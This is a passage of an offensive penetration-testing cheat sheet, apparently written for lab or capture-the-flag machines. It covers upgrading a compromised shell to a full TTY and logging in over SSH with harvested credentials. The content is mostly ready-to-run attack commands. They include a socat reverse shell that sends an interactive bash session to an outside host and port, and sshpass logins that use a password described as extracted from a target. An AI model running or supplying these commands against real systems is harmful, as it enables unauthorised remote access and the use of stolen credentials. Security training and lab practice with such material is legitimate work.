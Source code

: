 
## Shell Stabilization

### TTY Upgrade
```bash
# Python PTY
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background the shell
CTRL + Z

# Set raw mode and foreground
stty raw -echo; fg

# Set terminal environment
export TERM=xterm

# Check screen size and set
stty -a 
stty rows 28 cols 110
```

### Alternative TTY Methods
```bash
# Using script
script -qc /bin/bash /dev/null

# Using socat (if available on target)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.13:9001

# Using expect
expect -c "spawn /bin/bash; interact"
```

---

## SSH-Based Access

### sshpass for Automated SSH Login
```bash
# Install sshpass
sudo apt install sshpass

# SSH with password (from extracted credentials)
sshpass -p 'PlayerOftheMatch2022' ssh player@10.10.11.194

# SSH with password from file
echo 'password123' > /tmp/pass
sshpass -f /tmp/pass ssh user@target

# SSH with password and command execution
sshpass -p 'password' ssh user@target 'whoami'

# Disable host key checking for testing
sshpass -p 'password' ssh -o StrictHostKeyChecking=no user@target
```
